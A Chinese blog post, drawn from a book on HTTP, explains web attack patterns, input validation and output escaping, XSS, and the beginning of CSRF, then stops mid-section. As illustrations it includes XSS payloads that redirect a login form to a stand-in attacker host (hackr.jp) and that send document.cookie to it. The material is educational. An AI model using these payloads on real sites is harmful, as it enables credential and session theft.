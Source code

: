 ```yaml
---
author: Brian Hu
pubDatetime: 2017-09-09T03:38:05.000Z
title: 认识 HTTP Web 安全与攻击手段
postSlug: 认识 HTTP Web 安全与攻击手段
featured: false
draft: false
tags:
  - HTTP
ogImage: "https://res.cloudinary.com/dewu7okpv/image/upload/v1675676448/blog/4337988-3b2645de43c3de0c.png_bbmtjo.png"
description: 目前，互联网攻击大多是针对应用HTTP协议的服务器和客户端，以及运行在服务器上的Web应用等资源，本文主要针对Web应用的攻击技术进行简单分析。
---
```


**本文内容大多参考[《图解 HTTP》一书](https://book.douban.com/subject/25863515/)**

## 关于 Web 的攻击手段

目前，互联网攻击大多是针对应用 HTTP 协议的服务器和客户端，以及运行在服务器上的 Web 应用等资源，本文主要针对 Web 应用的攻击技术进行简单分析。

### 针对 Web 应用的攻击模式

对 Web 应用的攻击模式有以下两种。

- 主动攻击
  主动攻击（active attack）是指攻击者通过直接访问 Web 应用，把攻击代码传入的攻击模式。由于该模式是直接针对服务器上的资源进行攻击，因此攻击者需要能够访问到那些资源。

![这个攻击者没法吐槽](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676448/blog/4337988-3b2645de43c3de0c.png_bbmtjo.png)

- 被动攻击
  被动攻击（passive attack）是指利用圈套策略执行攻击代码的攻击模式。在被动攻击过程中，攻击者不直接对目标 Web 应用访问发起攻击。
  被动攻击通常的攻击模式如下所示。

1. 攻击者诱使用户触发已设置好的陷阱，而陷阱会启动发送已嵌入攻击代码的 HTTP 请求。
2. 当用户不知不觉中招之后，用户的浏览器或邮件客户端就会触发这个陷阱。
3. 中招后的用户浏览器会把含有攻击代码的 HTTP 请求发送给作为攻击目标的 Web 应用，运行攻击代码。
4. 执行完攻击代码，存在安全漏洞的 Web 应用会成为攻击者的跳板，可能导致用户所持的 Cookie 等个人信息被窃取，登录状态中的用户权限遭恶意滥用等后果。被动攻击模式中具有代表性的攻击是跨站脚本攻击（xss）和跨站点请求伪造（CSRF/XSRF）。

![](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676463/blog/4337988-72423c77abb5909d.png_jgdwfg.png)

### 因输出值转义不完全引发的安全漏洞

实施 Web 应用的安全对策可大致分为以下两部分。

- 客户端验证
- Web 应用端（服务器）验证
  - 输入值验证
  - 输出值转义

![](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676575/blog/4337988-511ebfb85ffa5947.png_txdspx.png)

多数情况下采用 JavaScript 在客户端验证数据。可是在客户端允许篡改数据或关闭 JavaScript，不适合将 JavaScript 验证作为安全的防范对策。保留客户端验证只是为了尽早地辨识输入错误，起到提高 UI 体验的作用。
Web 应用端的输入值验证按 Web 应用内的处理则有可能被误认为是具有攻击性意义的代码。输入值验证通常是指检查是否是符合系统业务逻辑的数值或检查字符编码等预防对策。
从数据库或文件系统、HTML、邮件等输出 Web 应用处理的数据之际，针对输出做值转义处理是一项至关重要的安全策略。当输出值转义不完全时，会因触发攻击者传入的攻击代码，而给输出对象带来损害。

## 跨站脚本攻击（XSS）

跨站脚本攻击（Cross-Site Scripting，XSS）是指通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的 HTML 标签或者 Javascript 的一种攻击。就这样，攻击者编写脚本设下陷阱，用户在自己的浏览器上运行时，一不小心就会受到被动攻击。
跨站脚本攻击有可能造成以下影响：

- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片（莫名其妙的广告）。

### 简单例子

**在动态生成 HTML 处发生：**

下面以编辑个人信息页面为例讲解跨站脚本攻击。下方界面显示了用户输入的个人信息内容。

![跨站脚本攻击案例](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676474/blog/4337988-f42a8f9323739e75.png_cirsin.png)

确认界面按原样显示在编辑界面输入的字符串。此处输入带有山口
一郎这样的 HTML 标签的字符串。

![按照输入内容原样显示的机制](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676487/blog/4337988-ec25584204f71ee4.png_tumma4.png)

此时的确认界面上，浏览器会把用户输入的`<s>` 解析成 HTML 标签，然后显示删除线。
删除线显示出来并不会造成太大的不利后果，但如果换成使用 script 标签将会如何呢。

## XSS 是攻击者利用预先设置的陷阱触发的被动攻击

跨站脚本攻击属于被动攻击模式，因此攻击者会事先布置好用于攻击的陷阱。
下图网站通过地址栏中 URI 的查询字段指定 ID，即相当于在表单内自动填写字符串的功能。而就在这个地方，隐藏着可执行跨站脚本攻击的漏洞。

![](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676499/blog/4337988-23e6fa19d23f219e.png_f3ilku.png)
充分熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶意代码的 URL。并隐藏植入事先准备好的欺诈邮件中或 Web 页面内，诱使用户去点击该 URL。

```
http://example.jp/login?ID="><script>var+f=document⇒
.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method=⇒
"get";</script><span+s="
```

浏览器打开该 URI 后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。当用户在表单内输入 ID 和密码之后，就会直接发送到攻击者的网站（也就是 hackr.jp），导致个人登录信息被窃取。

![](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676515/blog/4337988-d9c24bd7a2426f2b.png_akdyml.png)

之后，ID 及密码会传给该正规网站，而接下来仍然是按正常登录步骤，用户很难意识到自己的登录信息已遭泄露。

**对 http://example.jp/login?ID=yama 请求时对应的 HTML 源代码（摘录）**

```html
<div class="logo">![](/img/logo.gif)</div>
<form action="http://example.jp/login" method="post" id="login">
  <div class="input_id">ID <input type="text" name="ID" value="yama" /></div>
</form>
```

```html
**http://example.jp/login?ID="><script>var+f=document.getElementById
("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script>
<span+s="对请求时对应的HTML源代码（摘录）**
```

```html
<div class="logo">![](/img/logo.gif)</div>
<form action="http://example.jp/login" method="post" id="login">
  <div class="input_id">
    ID <input type="text" name="ID" value="" />
    <script>
      var f=document⇒
      .getElementById("login"); f.action="http://hackr.jp/pwget"; f.method=⇒
      "get";
    </script>
    <span s="" />
  </div>
</form>
```

### 对用户 Cookie 的窃取攻击

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的 Cookie 信息。
`<script src=http://hackr.jp/xss.js></script>`
该脚本内指定的http://hackr.jp/xss.js 文件。即下面这段采用 JavaScript 编写的代码。

```js
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```

在存在可跨站脚本攻击安全漏洞的 Web 应用上执行上面这段 JavaScript 程序，即可访问到该 Web 应用所处域名下的 Cookie 信息。然后这些信息会发送至攻击者的 Web 网站（http://hackr.jp/），记录在他的登录日志中。结果，攻击者就这样窃取到用户的Cookie 信息了。

![使用XSS 攻击夺取Cookie 信息](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676534/blog/4337988-73e389217a5eca2a.png_sjfqmj.png)

## 跨站点请求伪造(CSRF)

跨站点请求伪造（Cross-Site Request Forgeries，CSRF）攻击是指攻击者通过设置好的陷阱，强制对已完成认证的用户进行非预期的个人信息或设定信息等某些状态更新，属于被动攻击。
跨站点请求伪造有可能会造成以下等影响。

- 利用已通过认证的用户权限更新设定信息等
- 利用已通过认证的用户权限购买商品
- 利用已通过认证的用户权限在留言板上发表言论

### 跨站点请求伪造的攻击案例

下面以留言板功能为例，讲解跨站点请求伪造。该功能只允许已认证并登录的用户在留言板上发表内容。

![跨站点请求伪造的攻击案例](https://res.cloudinary.com/dewu7okpv/image/upload/v1675676550/blog/4337988-aa8130ff059c20c4.png_vs3atg.png)

在该留言板系统上，受害者用户 A 是已认证状态。它的浏览器中的 Cookie 持有已认证的会话 ID（步骤 ①）
攻击者设置好一旦用户访问，即会发送在留言板上发表非主观行为产生的评论的请求的陷阱。用户 A 的浏览器执行完陷阱中的请求后，留言板上也就会留下那条评论（步骤 ②）。
触发陷阱之际，如果用户 A 尚未通过认证，则无法利用用户 A 的身份权限在留言板上发表内容。

